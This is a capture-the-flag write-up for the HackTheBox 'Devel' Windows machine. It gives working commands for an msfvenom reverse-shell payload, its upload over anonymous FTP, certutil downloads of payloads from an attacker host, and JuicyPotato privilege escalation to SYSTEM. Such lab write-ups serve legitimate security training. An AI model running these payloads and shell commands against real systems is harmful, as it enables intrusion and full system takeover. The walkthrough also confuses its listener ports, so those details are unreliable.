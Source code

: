 
# HackTheBox : Devel

This is a simple Windows box running a Microsoft IIS server. There is an FTP server running which allows annonymous login and a web page is hosted at port 80. The privelege escalation was 
quiet straight forward using JuicyPotato as there is ```SeImpersonatePrivilege ``` token is enabled which was a big clue for using this method.	

## Information Gathering

### Port scan 

```zsh
nmap -sS -sC -v 10.10.10.5 -p-
```
Result of the Nmap Scan

```console
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-03 11:49 EDT
NSE: Loaded 121 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 11:49
Completed NSE at 11:49, 0.00s elapsed
Initiating NSE at 11:49
Completed NSE at 11:49, 0.00s elapsed
Initiating Ping Scan at 11:49
Scanning 10.10.10.5 [4 ports]
Completed Ping Scan at 11:49, 0.31s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 11:49
Completed Parallel DNS resolution of 1 host. at 11:49, 0.00s elapsed
Initiating SYN Stealth Scan at 11:49
Scanning 10.10.10.5 [65535 ports]
Discovered open port 80/tcp on 10.10.10.5
Discovered open port 21/tcp on 10.10.10.5
SYN Stealth Scan Timing: About 2.86% done; ETC: 12:07 (0:17:34 remaining)
SYN Stealth Scan Timing: About 11.33% done; ETC: 11:58 (0:07:57 remaining)
SYN Stealth Scan Timing: About 20.75% done; ETC: 11:56 (0:05:48 remaining)
SYN Stealth Scan Timing: About 33.44% done; ETC: 11:55 (0:04:01 remaining)
SYN Stealth Scan Timing: About 45.68% done; ETC: 11:55 (0:03:00 remaining)
SYN Stealth Scan Timing: About 57.95% done; ETC: 11:54 (0:02:11 remaining)
SYN Stealth Scan Timing: About 71.94% done; ETC: 11:54 (0:01:22 remaining)
SYN Stealth Scan Timing: About 83.26% done; ETC: 11:54 (0:00:48 remaining)
Completed SYN Stealth Scan at 11:54, 277.14s elapsed (65535 total ports)
NSE: Script scanning 10.10.10.5.
Initiating NSE at 11:54
NSE: [ftp-bounce] PORT response: 501 Server cannot accept argument.
Completed NSE at 11:54, 7.77s elapsed
Initiating NSE at 11:54
Completed NSE at 11:54, 0.00s elapsed
Nmap scan report for 10.10.10.5
Host is up (0.22s latency).
Not shown: 65533 filtered ports
PORT   STATE SERVICE
21/tcp open  ftp
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
| 03-17-17  05:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: IIS7

NSE: Script Post-scanning.
Initiating NSE at 11:54
Completed NSE at 11:54, 0.00s elapsed
Initiating NSE at 11:54
Completed NSE at 11:54, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 285.56 seconds
           Raw packets sent: 131254 (5.775MB) | Rcvd: 185 (8.124KB)

```

## Enumeration

### Discovery

From the nmap results, it was very clear as to what are the 2 interesting things

- FTP at port 21

- Webpage at port 80

![Important stuff](./images/discovery.png)


### Generating a reverse shell to upload

```zsh
msfvenom -p windows/shell/reverse_tcp LHOST=10.10.14.10 LPORT=4444 -f aspx > shell.aspx
```
 
## Exploitation

### Uploading the shell

- Simply Login into the FTP server with credentials `anonymous` and `anonymous`

![logging in with the credentials](./images/anonymous_login.png)

- Upload the apsx reverse shell code which you generated using the msfvenom

![Uploaded the apsx-rev-shell](./images/upload_rev_shell_using_put.png)

### Getting the shell

Start a listener at port 443 (the port you defined in the msfvenom)

```zsh
nc -lvnp 4444
```

Visit the aspx page to start the reverse shell and head back to the listener

![Visit the page](./images/page.png)


Now we have a shell back and should enumerate more inside to find more about the machine

![Intial shell](./images/rev_shell.png)





We take a look at all the details of the system

```cmd 
systeminfo
```
![Information about the system](./images/systeminfo.png)

Checking the privileges of the system we are working on

```cmd
whoami /priv
```

>SeImpersonatePrivilege        Impersonate a client after authentication Enabled 

Service accounts could intercept a SYSTEM ticket and use it to impersonate the SYSTEM user.
This was possible because service accounts usually have the “SeImpersonatePrivilege” privilege enabled.

This is the broken privilege which can be used to our advantage by juicy potato.

For this to escalate our privileges , we will need to the following things

- python simple http server in your attacker box
- certutil.exe to transfer files via my kali machine to the victim windows machine
- reverse.exe a new one to be used to get a shell with system privileges
- juicy potato to exploit the SeImpersonatePrivilege
- Place all the files that you want to upload in the same folder and then start the http server

>Download x86 version of Juicy potato from this: https://github.com/ivanitlearning/Juicy-Potato-x86/releases

```zsh
python -m SimpleHTTPServer 8000
```
Making a new reverse.exe

```zsh
msfvenom -p windows/shell/reverse_tcp LHOST=10.10.14.10 LPORT=443 -f exe > reverse.exe
```
Uploading the new reverse.exe 

```cmd
certutil.exe -urlcache -split -f http://10.10.14.10:8000/reverse.exe reverse.exe
```
![Uplaoding reverse.exe](./images/reverse.exe.png)

Uploading JuicyPotatox86 as it is a 32 bit machine, so we will need the x86 bianry.

```cmd
certutil.exe -urlcache -split -f http://10.10.14.10:8000/Juicy.Potato.x86.exe Juicy.Potato.x86.exe 
```
![Uplaoding Juicy potato](./images/juiciypotato.exe.png)

Start a new listener at port 443

```zsh
nc -lvnp 443
```
To find the CLSID for the machine I used this link:
> https://github.com/ohpe/juicy-potato/blob/master/CLSID/Windows_7_Enterprise/README.md

Run Juicy potato

```cmd
Juicy.Potato.x86.exe -l 1337 -p reverse.exe -t * -c {03ca98d6-ff5d-49b8-abc6-03dd84127020}
```
![Running Juicy potato](./images/potato_run.png)

Check the listener at port 443. You will now have a shell with System privileges

![Running Juicy potato](./images/admin_shell.png)

## Flags

***User Flag***

![User Flag](./images/userflag.png)

***Root Flag***

![Root Flag](./images/rootflag.png)




